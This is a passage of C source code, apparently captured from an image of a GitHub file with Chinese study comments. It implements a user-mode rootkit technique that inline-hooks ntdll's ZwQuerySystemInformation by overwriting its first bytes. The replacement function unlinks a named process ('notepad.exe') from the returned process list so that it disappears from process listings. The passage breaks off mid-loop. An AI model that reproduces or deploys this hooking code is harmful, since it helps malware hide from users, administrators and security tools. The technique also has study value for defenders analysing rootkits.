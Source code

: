 ```
				PVOID SystemInformation,
				ULONG SystemInformationLength,
				PULONG ReturnLength);
//typedef NTSTATUS (WINAPI* ZwQ)(ULONG SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength);

LPCWSTR dll_ntdll = L"ntdll.dll";
LPCSTR func_ZwQ = "ZwQuerySystemInformation";
WCHAR Hide_Process[] = L"notepad.exe";
BYTE old_ZwQ[5] = { 0, };

BOOL unhook_by_code();
BOOL hook_by_code();

BOOL unhook_by_code()
{
	DWORD oldProtect;
	ZwQ p_ZwQ = (ZwQ)GetProcAddress(GetModuleHandle(dll_ntdll), func_ZwQ);
	if (((PBYTE)p_ZwQ)[0] == 0xE9)
	{
		VirtualProtect((LPVOID)p_ZwQ, 10, PAGE_EXECUTE_READWRITE, &oldProtect);
		memcpy((LPVOID)p_ZwQ, &old_ZwQ, 5);
		VirtualProtect((LPVOID)p_ZwQ, 10, oldProtect, &oldProtect);
		return TRUE;
	}
	return FALSE;
}

// SYSTEM_INFORMATION_CLASS由于这个枚举结构体没有文档化，所以没有我们用ULONG代替
NTSTATUS WINAPI new_ZwQ(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength) {
	PSYSTEM_PROCESS_INFORMATION pCur,pPrev;
	unhook_by_code();
	FARPROC p_ZwQ = GetProcAddress(GetModuleHandle(dll_ntdll), func_ZwQ);
	NTSTATUS status = ((ZwQ)p_ZwQ)(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
	if (status != 0)
	{// 检查是否报错
		hook_by_code();
		return status;
	}
	if (SystemInformationClass == SystemProcessInformation)//只有SystemInformationClass=5(查询进程列表)是才进行应用隐藏操作（看不懂）
	{
		// pCur是单向链表
		pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;// 进程信息结构体(这个结构体看不懂)
		pPrev = pCur;
		while (TRUE)
		{
			if (pCur->ImageName.Buffer) {
				if (!wcscmp(pCur->ImageName.Buffer, Hide_Process)) {
					if (pCur->NextEntryOffset == 0) {
						pPrev->NextEntryOffset = 0;
					}
					else {
						pPrev->NextEntryOffset += pCur->NextEntryOffset;
					}
				}
				else{
					pPrev = pCur;
				}
			}
			if (pCur->NextEntryOffset == 0) {
```
